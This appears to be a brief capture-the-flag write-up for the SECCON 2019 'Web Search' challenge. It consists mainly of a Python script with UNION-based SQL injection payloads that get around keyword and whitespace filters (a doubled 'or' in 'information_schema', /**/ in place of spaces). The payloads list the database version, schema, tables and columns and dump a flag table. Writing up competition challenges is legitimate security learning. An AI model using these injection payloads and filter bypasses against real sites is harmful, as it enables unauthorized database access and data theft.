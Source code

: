 # SECCON19 Web Search

Get a hidden message! Let's find a hidden message using the search system on the site.

[http://web-search.chal.seccon.jp/](http://web-search.chal.seccon.jp/)

```python
import requests

query = "1' UNION SELECT * FROM (SELECT 10)A JOIN (SELECT @@version)B JOIN (SELECT 10)C#" # 10.4.8-MariaDB-1:10.4.8+maria~bionic
query = "1' UNION SELECT * FROM (SELECT 10)A JOIN (SELECT database())B JOIN (SELECT database())C#" # seccon_sqli
query = "1' UNION SELECT * FROM (select table_name from infoorrmation_schema.tables)A JOIN (SELECT 5)B JOIN (SELECT 5)C#"
#query = "1' UNION SELECT * FROM (select column_name from infoorrmation_schema.columns where table_name = 'articles')A JOIN (SELECT 5)B JOIN (SELECT 5)C#"
#query = "1' UNION SELECT * FROM (select description from articles)A JOIN (SELECT 5)B JOIN (SELECT 5)C#"
#query = "1' UNION SELECT * FROM (select * from flag)A JOIN (SELECT 5)B JOIN (SELECT 5)C#"

query = query.replace(" ", "/**/")
q = {"q": query}
res = requests.get("http://web-search.chal.seccon.jp", params=q)
print(res.text)
```

## Flag

I forgot to write the flag down here.